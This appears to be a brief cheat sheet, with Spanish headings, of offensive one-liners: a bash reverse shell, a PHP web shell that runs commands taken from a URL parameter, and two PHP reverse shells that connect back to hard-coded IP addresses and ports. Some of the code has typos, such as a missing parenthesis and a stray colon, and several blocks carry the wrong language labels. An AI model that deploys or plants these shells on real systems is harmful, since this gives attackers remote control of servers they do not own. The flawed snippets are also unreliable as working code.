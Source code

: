 ### Bash
```css
bash -c "bash -i >& /dev/tcp/10.8.203.6/9001 0>&1"
```


Oneliner para ejecutar cmd desde url
```css
<?php 
        echo "<pre>" . shell_exec($_REQUEST['cmd']>
?>
```

oneliner para leer desde php
```python
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.8.203.6/7890 0>&1'"):
```

php.revershell
```python
<?php
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.85/443 0>&1'")
?>
```